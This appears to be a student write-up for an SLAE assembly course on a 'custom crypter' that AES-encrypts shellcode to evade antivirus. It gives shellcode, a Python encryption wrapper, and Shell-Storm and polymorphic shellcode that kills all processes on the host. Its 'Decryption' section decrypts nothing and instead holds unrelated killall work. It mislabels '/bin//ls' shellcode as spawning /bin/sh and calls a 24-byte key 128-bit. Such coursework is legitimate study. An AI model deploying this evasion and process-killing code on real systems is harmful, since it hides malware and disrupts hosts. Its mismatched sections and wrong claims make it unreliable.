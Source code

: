 ```yaml
---
title:  "SLAE x86 Assignment 7: Custom Crypter"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
#categories:
#  - exploit dev
classes: wide
#tags:
#  - exploit dev
#  - slae
---
```


### Custom Crypter
------

* Create a custom crypter
* Use any encryption schema
* Use any programming language

#### Concept 
-----

A crypter is defined as a tool that has the ability to encrypt, obfuscate, and manipulate malicious code making it undetectable to common AV and IDS systems. 

Similar to the custom Encoder created in an earlier assignment, the concept is developed further with the use of an encryption scheme, leading to a higher success rate of evasion by decrypting the malicious code at run-time and executing on the target host.

The AES (Advanced Encryption Standard) cipher  algorithm also known as Rijndael, will be used to illustrate the concept of a custom Encoder:

* Symmetric-key algorithm (same key used to encrypt and decrypt the data)
* 3 different key sizes - 128/192/256 bits
* 128-bit block sizes (data is divided into 4x4 arrays each containing 16 bytes)
* High-speed performance and low RAM (memory) utilization when encrypting/decrypting 

![AES](/assets/images/AES.jpg) 

3 steps used to demonstrate the Crypter process:

* Encryption
* Decryption
* POC

#### Encryption
--------

The execve-stack shellcode from the course material will be used as a reference for the shellcode, which spawns a <code class="language-plaintext highlighter-rouge">/bin/sh</code> shell on the local host:

```bash
"\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

A python script will be used as a Crypter wrapper to implement the AES encryption/decryption, referenced from Code Koala [http://www.codekoala.com/posts/aes-encryption-python-using-pycrypto] [encryption-codekoala].

Note in this instance a static 128-bit key <code class="language-plaintext highlighter-rouge">DisShudBSecretEncryption</code> is hardcoded into the script for the sake of the POC to illustrate the concept, best practice is to randomly generate a key:

```python
#!/usr/bin/python

# Filename: AES_encryption.py
# Author: h3ll0clar1c3
# Purpose: Wrapper script to generate encrypted shellcode from the original shellcode
# Usage: python AES_encryption.py 

from Crypto.Cipher import AES
import sys
import os
import base64

def aes128(shc):

#block size = 16 byte arrays
 BLOCK_SIZE = 16 
 PADDING = '{'
 pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * PADDING
 EncodeAES = lambda c, s: base64.b64encode(c.encrypt(pad(s)))

#static encryption/decryption key - must be 16/24/32 bytes long
 secret = 'DisShudBSecretEncryption' 
 cipher = AES.new(secret)
 encoded = EncodeAES(cipher, shc)
 print 'Encrypted shellcode using AES 128-bit key + Base64 encoded:\n\n', encoded

#execve-stack shellcode to spawn /bin/sh shell
shellcode = """
\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x6c\\x73\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\x89\\xe1\\xb0\\x0b\\xcd\\x80
"""
Encryption = aes128 (shellcode)
```

As a POC, the AES encryption wrapper script is executed resulting in the original shellcode being encrypted and base-64 encoded:

```bash
osboxes@osboxes:~/Downloads/SLAE$ python AES_encryption.py 
Encrypted shellcode using AES 128-bit key + Base64 encoded:

JORa9JYDlDQi0SwuPPwAbqJZydd7ID1G+aUeYRJbEqUygnmo4zi+D0H4o2Dc/FJRJSUNfcu9zM33bg8NcB95qQhhTJ3xKvEiXnY7fLPOt3M6fesL0nrQFrwgUTl8dDr9L2W3vrdYl0Ps9ByF5OwqaQ==
osboxes@osboxes:~/Downloads/SLAE$ 
```

#### Decryption
--------------

The <code class="language-plaintext highlighter-rouge">killall</code> command on a Linux based system will literally terminate all running processes that are currently active on the target host’s machine.

Referenced from Shell-Storm [http://shell-storm.org/shellcode/files/shellcode-212.php] [killall-shellstorm]:

```c
/* By Kris Katterjohn 11/13/2006
 *
 * 11 byte shellcode to kill all processes for Linux/x86
 *
 *
 *
 * section .text
 *
 *      global _start
 *
 * _start:
 *
 * ; kill(-1, SIGKILL)
 *
 *      push byte 37
 *      pop eax
 *      push byte -1
 *      pop ebx
 *      push byte 9
 *      pop ecx
 *      int 0x80
 */

main()
{
       char shellcode[] = "\x6a\x25\x58\x6a\xff\x5b\x6a\x09\x59\xcd\x80";

       (*(void (*)()) shellcode)();
}
```

The polymorphic (modified) version of the original shellcode is scripted in Assembly:

```nasm 
; Filename: killall_poly.nasm
; Author: h3ll0clar1c3
; Purpose: Terminates processes running on the local host
; Compilation: ./compile.sh killall_poly
; Usage: ./killall_poly
; Shellcode size: 15 bytes
; Architecture: x86

global   _start

section .text
        _start:

	sub eax, eax			; initialize register // added instruction
	mov al, 0x25			; move 0x25 into al // changed the method
	sub ebx, ebx			; initialize register // added instruction
	dec ebx				; decrement ebx // replaced push 0xffffffff
	sub ecx, ecx			; initialize register // added instruction
	mov cl, 0xf7			; move 0xf7 intocl // added instruction
	neg cl				; negates 0xf7 // added instruction
	int 0x80			; call the interrupt to execute the syscall
```

The Assembly code is compiled by assembling with Nasm, and compiled as an executable binary.

Objdump is used to extract the shellcode from the <code class="language-plaintext highlighter-rouge">killall</code> command in hex format (Null free):

```bash
osboxes@osboxes:~/Downloads/SLAE$ objdump -d ./killall_poly | grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' 
"\x29\xc0\xb0\x25\x29\xdb\x4b\x29\xc9\xb1\xf7\xf6\xd9\xcd\x80"
```

A C program scripted with the newly generated shellcode:

```c 
/**
* Filename: killall_poly_shellcode.c
* Author: h3ll0clar1c3
* Purpose: Terminates processes running on the local host   
* Compilation: gcc -fno-stack-protector -z execstack -m32 killall_poly_shellcode.c -o killall_poly_final
* Usage: ./killall_poly_final
* Shellcode size: 15 bytes
* Architecture: x86
**/

#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x29\xc0\xb0\x25\x29\xdb\x4b\x29\xc9\xb1\xf7\xf6\xd9\xcd\x80";

int main()
{
        printf("Shellcode length: %d bytes\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

The C program is compiled as an executable binary with stack-protection disabled, and executed resulting in a shellcode size of 15 bytes:

```bash
osboxes@osboxes:~/Downloads/SLAE$ ./killall_poly_final Connection to 192.168.0.142 closed by remote host.
Connection to 192.168.0.142 closed.
```

The polymorphic version of the shellcode is 36% larger in size compared to the original reference from Shell-Storm.

##### SLAE Disclaimer ####
---------

This blog post has been created for completing the requirements of the [SLAE certification] [slae-link].

Student ID: PA-14936

GitHub Repo: [Code][github-code]

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment7
[encryption-codekoala]: http://www.codekoala.com/posts/aes-encryption-python-using-pycrypto
